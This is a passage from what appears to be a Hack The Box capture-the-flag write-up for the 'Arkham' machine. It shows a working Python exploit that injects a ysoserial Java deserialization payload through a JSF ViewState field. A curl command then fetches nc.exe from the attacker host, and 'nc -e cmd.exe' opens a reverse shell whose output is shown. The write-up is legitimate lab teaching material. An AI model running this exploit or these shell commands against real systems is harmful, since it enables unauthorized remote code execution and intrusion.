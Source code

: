 ```python
    return message_b64

class Terminal(Cmd):
    prompt = 'serial# '

    def default(self, args):
        runcmd(args)

def runcmd(cmd):
    process = subprocess.Popen(['java', '-jar', '/opt/ysoserial/ysoserial.jar', 'CommonsCollections5', cmd], stdout=subprocess.PIPE)
    out, err = process.communicate()
    payload = encrypt(B64KEY, out)
    resp = requests.post('http://10.10.10.130:8080/userSubscribe.faces',
            data={
                'j_id_jsp_1623871077_1:email': 'asdf@kjdaslf.com',
                'j_id_jsp_1623871077_1:submit': 'SIGN UP',
                'j_id_jsp_1623871077_1_SUBMIT': '1',
                'javax.faces.ViewState': payload
                }
            )
    print('Command sent')

term = Terminal()
term.cmdloop()
```

Let's try to get `netcat` on the machine:

```console
root@kali:~/HTB/Arkham# mkdir www
root@kali:~/HTB/Arkham# cd www
root@kali:~/HTB/Arkham/www# cp /usr/share/windows-binaries/nc.exe .
python -m SimpleHTTPServer 80
```

```console
root@kali:~/HTB/Arkham# ./cmdinjection.py
serial# curl 10.10.13.251/nc.exe -O nc.exe
Command sent
serial# nc 10.10.13.251 1234 -e cmd.exe
Command sent
```

The tcp listener on our own machine:

```console
root@kali:~/HTB/Arkham# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.13.251] from (UNKNOWN) [10.10.10.130] 49702
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\tomcat\apache-tomcat-8.5.37\bin>
[...]
C:\Users\Alfred\Desktop>dir   
dir
 Volume in drive C has no label.
 Volume Serial Number is FA90-3873

 Directory of C:\Users\Alfred\Desktop

02/03/2019  09:33 AM    <DIR>          .
02/03/2019  09:33 AM    <DIR>          ..
02/03/2019  09:33 AM                70 user.txt
               1 File(s)             70 bytes
```